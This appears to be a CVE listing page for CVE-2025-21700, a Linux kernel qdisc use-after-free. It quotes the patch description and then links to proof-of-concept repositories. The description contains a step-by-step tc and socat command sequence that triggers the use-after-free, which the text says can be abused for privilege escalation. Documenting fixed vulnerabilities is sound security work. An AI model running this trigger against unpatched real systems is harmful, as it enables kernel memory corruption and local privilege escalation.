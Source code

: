 ### [CVE-2025-21700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-21700)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f41524e886b7f1b8a0c1fc7321cac2%3C%20cd796e269123e1994bfc4e99dd76680ba0946a97%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:net: sched: Disallow replacing of child qdisc from one parent to anotherLion Ackermann was able to create a UAF which can be abused for privilegeescalation with the following scriptStep 1. create root qdisctc qdisc add dev lo root handle 1:0 drrstep2. a class for packet aggregation do demonstrate uaftc class add dev lo classid 1:1 drrstep3. a class for nestingtc class add dev lo classid 1:2 drrstep4. a class to graft qdisc totc class add dev lo classid 1:3 drrstep5.tc qdisc add dev lo parent 1:1 handle 2:0 plug limit 1024step6.tc qdisc add dev lo parent 1:2 handle 3:0 drrstep7.tc class add dev lo classid 3:1 drrstep 8.tc qdisc add dev lo parent 3:1 handle 4:0 pfifostep 9. Display the class/qdisc layouttc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 limit 1000p qdisc drr 3: dev lo parent 1:2step10. trigger the bug <=== prevented by this patchtc qdisc replace dev lo parent 1:3 handle 4:0step 11. Redisplay again the qdiscs/classestc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 1:3 root leaf 4: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 refcnt 2 limit 1000p qdisc drr 3: dev lo parent 1:2Observe that a) parent for 4:0 does not change despite the replace request.There can only be one parent.  b) refcount has gone up by two for 4:0 andc) both class 1:3 and 3:1 are pointing to it.Step 12.  send one packet to plugecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10001))step13.  send one packet to the grafted fifoecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10003))step14. lets trigger the uaftc class delete dev lo classid 1:3tc class delete dev lo classid 1:1The semantics of "replace" is for a del/add _on the same node_ and nota delete from one node(3:1) and add to another node (1:3) as in step10.While we could "fix" with a more complex approach there could beconsequences to expectations so the patch takes the preventive approach of"disallow such config".Joint work with Lion Ackermann <nnamrec@gmail.com>

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/ARPSyndicate/cve-scores
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/w4zu/Debian_security
- https://github.com/xairy/linux-kernel-exploitation


